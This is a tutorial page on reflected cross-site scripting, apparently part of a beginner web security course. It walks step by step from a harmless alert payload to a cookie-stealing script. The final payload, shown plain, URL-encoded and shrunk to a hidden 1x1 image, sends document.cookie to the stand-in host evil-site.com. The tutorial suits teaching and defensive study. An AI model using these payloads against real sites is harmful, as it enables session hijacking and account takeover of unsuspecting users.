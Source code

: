 # Reflected XSS

We got introduced to **Reflected XSS** in the previous section, in short it is a type of vulnerability that gets reflected to you when triggered.

We discussed in previous example how we could send some URL string like,

`https://https://example-site.com/search?term=<script>alert("XSS")</script>`

and the user visiting the URL will be greeted with `XSS`.
Well, this isn't the thing that a malicious attacker would do, is it?

So, how can we convert the above code to something harmful?

>**Note:** The purpose of this lesson is to teach you how malicious actors think, and not how to become one.

Let's imagine you are logged in to that e-commerce site.
And say it uses cookie based authentication mechanism. Which means anyone who has your cookies can impersonate the server to think that the user is actually you.

Let us say we are *attacker* and the user who has no idea what we are going to do is *victim*.

As an attacker, our goal is to impersonate the server to think we are the *victim* user.But, we need ourself to authenticate using login credentials. Sad thing is, *we don't have it!*.

**Let's steal! ;)**

We need `document.cookie`, it is a variable that stores cookies of every site you visit, individually.

Now we know what we need to include in the code.

```html
  <script>alert(document.cookie)</script>
```

Voila! We see our cookies in the alert box. You might think this is it. But, when a victim visits our new url,

`https://fake-ecommerce-121255.com/search?term=<script>alert(document.cookie)</script>`

the victim sees the cookie and wonder's th!

But, we don't actually have it, do we? Now, to actually get the cookie we use a neat idea.

Let's say we have a evil website `https://evil-site.com`.

What we try to do is send a HTTP request to our evil site with cookies in the URL parameter and later retrieve it. But, how?

What if we sent it using a HTTP Request from an image! 

Like,

```html
<img src="https://evil-site.com/cookie?cookie=victim-cookie-here">
```

Looks like a  good idea, but how are we gonna attach `document.cookie` in `src` attribute. 

That isn't possible as attributes doesn't support string concatenation like **JavaScript**.

Let's think it clearly, we can use `script` tag though!

So lets use `document.write` to output `img` tag instead of putting `img` directly,

```html
  <script>document.write("<img src='https://evil-site.com/cookie?cookie=" + document.cookie + " '>")</script>
```

Now, lets paste the above code in the URL query parameter.

It doesn't work! Wth! What happened? The payload didn't work because of how the browser URL works, you must **URL Encode** them before sending.

`%3Cscript%3Edocument.write%28%22%3Cimg%20src%3D%27https%3A%2F%2Fevil-site.com%2Fcookie%3Fcookie%3D%22%20%2B%20document.cookie%20%2B%20%22%20%27%3E%22%29%3C%2Fscript%3E`

This is the final payload, now this will send the `document.cookie` to the evil site that we provided.

But in real life, wouldn't it be better if we could hide that weird image thumbnail?

Let's set width and height for the image.

```html
  <script>document.write("<img width='1' height='1' src='https://evil-site.com/cookie?cookie=" + document.cookie + " '>")</script>
```

Voila! No image at all! You can now play around with various tags and attributes and explore further.

## Final Words

The example that we discussed above is simplest of all XSS Vulnerabilities, you don't get to encounter with this type of simple vulns anymore, but sometimes if you are lucky you might find it.

The most important lesson to take is that you must explore each and every input fields and look at it's output end. Then, walk-through finding XSS. It won't be that simple but, you need to understand that and **Try Harder!**
